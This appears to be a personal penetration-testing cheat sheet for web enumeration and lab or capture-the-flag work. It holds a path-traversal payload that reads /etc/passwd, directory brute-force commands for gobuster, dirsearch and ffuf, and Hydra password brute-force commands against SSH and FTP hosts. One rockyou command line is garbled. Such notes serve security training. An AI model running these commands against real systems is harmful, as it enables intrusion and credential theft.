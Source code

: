 # Web

## Source
View source files

## Robots
Open robots.txt

## LFI
Try to open  ../../../../../etc/passwd
http://target/item?id=../../../../../etc/passwd

## Common extensions
- /usr/share/dirb/wordlists/extensions_common.txt
- /usr/share/wordlists/wfuzz/general/mutations_common.txt
- html
- phtml
- txt
- asp
- aspx
- js

## Common start pages
- /usr/share/dirb/wordlists/indexes.txt
- index
- default
- home

## Web path discovery

### Common word lists
- cewl -w wordlist.txt -d 2 -m 5 $target

- /usr/share/wordlists/
- /usr/share/dirb/wordlists/common.txt
- /usr/share/dirb/wordlists/bigxt
- /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
- /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
- /usr/share/wordlists/wfuzz/general/megabeast.txt


/usr/share/wordlists/rockyou.txt

### Gobuster
```
gobuster dir -u http://$target -w /usr/share/dirb/wordlists/common.txt -t 100 -o $target_name.dir.txt
gobuster dir -u $target -w /usr/share/dirb/wordlists/common.txt -x .php,.txt,.html -t 100 -o $target_name.file.txt
gobuster dir -u http://10.10.10.157/centreon/api -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -t 40 -x .php,.txt,.html

```


### dirb
```
dirb $target
```

###  dirsearch

```
git clone https://github.com/maurosoria/dirsearch.git
cd dirsearch
pip3 install -r requirements.txt
python3 dirsearch.py -u <URL> -e <EXTENSIONS>

Usage: dirsearch.py [-u|--url] target [-e|--extensions] extensions [options]

python3 dirsearch.py -u $target -e php,html,txt port80

python3 dirsearch.py -e php,html,js -u https://target

python3 dirsearch.py -e php,html,txt,js -u https://target -w /path/to/wordlist



```

## dirsearch recursive
python3 dirsearch.py -e php,html,js -u https://target -r


## ffuf
ffuf -ic -w /usr/share/wordlists/dirb/common.txt -e '.html' -u "http://10.10.242.137:80/FUZZ" | tee "recon/ffuf_10.10.242.137_80.txt"
ffuf -c -w letters -u http://10.10.21.10 -H "User-Agent: FUZZ"




enum4linux $ip


## Hydra


hydra -l <username> -P /usr/share/wordlists

hydra -l <username> -P locks.txt 10.10.130.81 ssh

hydra -t 4 -l jan -P <rockyou.txt directory> ssh://<MACHINE IP>

hydra -f -I -vV -t 64 -l lin -P ./locks.txt $TARGET ssh

hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.133.186



## rockyou
```
sudo gunzip /usr/share/wordlists/rockyou.txt.gzwc -l /usr/share/wordlists/rockyou.txt
```




Cracking everything with John the Ripper
https://bytesoverbombs.io/cracking-everything-with-john-the-ripper-d434f0f6dc1c




